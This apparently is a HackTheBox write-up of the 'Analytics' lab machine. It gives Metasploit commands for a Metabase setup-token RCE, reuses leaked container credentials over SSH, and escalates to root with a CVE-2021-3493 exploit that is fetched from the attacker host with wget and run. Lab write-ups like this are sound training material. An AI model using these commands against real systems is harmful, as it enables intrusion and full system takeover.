 ```yaml
---
title: Analytics
layout: default
permalink: /writeups/hackthebox/:title/
tags: [writeup]
category: HackTheBox
---
```


# [Analytics](https://app.hackthebox.com/machines/569)

### nmap

```bash
nmap -sC -sV -oA scans/initial -vv 10.10.11.233
```
![image](/assets/img/Pasted image 20231014021247.png)

<br><br>

### Port 80 (HTTP)

When navigating to the webpage we get an error and redirected to the domain `analytical.htb`
![image](/assets/img/Pasted image 20231014021459.png)

We can add this domain to our `/etc/host` file to get past this error.
![image](/assets/img/Pasted image 20231014021641.png)

Navigating to `http://analytical.htb` once again, we are greeted by an actual webpage.
![image](/assets/img/Pasted image 20231014021752.png)

Looking around, we see a `Login` button in the top right, when clicked, we get another resolution error because it directs us to a new subdomain `data.analytical.htb`
![image](/assets/img/Pasted image 20231014021907.png)

We can append this new subdomain into our `/etc/hosts` file.
![image](/assets/img/Pasted image 20231014022054.png)

Refreshing, we now see a `Metabase` login portal.
![image](/assets/img/Pasted image 20231014022142.png)

Inspecting the login portal, we can find that `Metabase` version `0.46.6`.
![image](/assets/img/Pasted image 20231014022700.png)

After looking around on good, we find a [Setup Token RCE](https://www.rapid7.com/db/modules/exploit/linux/http/metabase_setup_token_rce/) vulnerability that affects `Metabase` versions before `0.46.6.1`.

We can now use `Metasploit` to exploit this vulnerability.
```
msf6 > use exploit/linux/http/metabase_setup_token_rce
msf6 > set RHOSTS data.analytical.htb
msf6 > set LHOST tun0
msf6 > run
```
![image](/assets/img/Pasted image 20231014023204.png)

<br><br>

### Internal (Docker)

From our small amount of commands available and the `.dockerenv` file in the root of the file system, we can assume that were are in a `Docker` container.
![image](/assets/img/Pasted image 20231014023415.png)

Looking at the environment variables, we see the `META_USER` and `META_PASS` variables set with interesting information.
![image](/assets/img/Pasted image 20231014023547.png)

Now that we have the set of credentials `metalytics:An4lytics_ds20223#`, we can try them on different services running on the host.

After some looking around, we remembered that `SSH` was running, if we try these credentials, we get access to the host running the `Docker` container.
![image](/assets/img/Pasted image 20231014023815.png)

<br><br>

### Internal (Host)

After some manual and automated enumeration, with no results, we decided to look for possible kernel exploits that can escalate our privileges to `root`. 

With the `uname -v` command, we see that the host is running Ubuntu version `22.04`
![image](/assets/img/Pasted image 20231014024300.png)

We found the following [privilege escalation script](https://github.com/briskets/CVE-2021-3493)(CVE-2021-3493) that exploits a vulnerability in `Ubuntu OverlayFS` used for local privilege escalations and we also see version `22.04` under the affected versions.  
![image](/assets/img/Pasted image 20231014024527.png)

Following the `Usage` section, we can download the `C` script, compile it on our attacker machine, then upload the file to the victim and run it.

1. Download [exploit](https://raw.githubusercontent.com/briskets/CVE-2021-3493/main/exploit.c).
```bash
wget https://raw.githubusercontent.com/briskets/CVE-2021-3493/main/exploit.c
```

2. Compile `exploit.c` using `gcc`
```bash
gcc exploit.c -o exploit
```

3. Host the `exploit` file on a `python3` web server. 
```bash
python3 -m http.server
```
![image](/assets/img/Pasted image 20231014024932.png)

4. On the victim machine, download the `exploit` script.
```bash
wget http://10.10.14.5:8000/exploit
```
![image](/assets/img/Pasted image 20231014025112.png)

5. Make the `exploit` file executable, run the script, and get `root`.
```bash
chmod +x exploit
./exploit
```
![image](/assets/img/Pasted image 20231014025237.png)
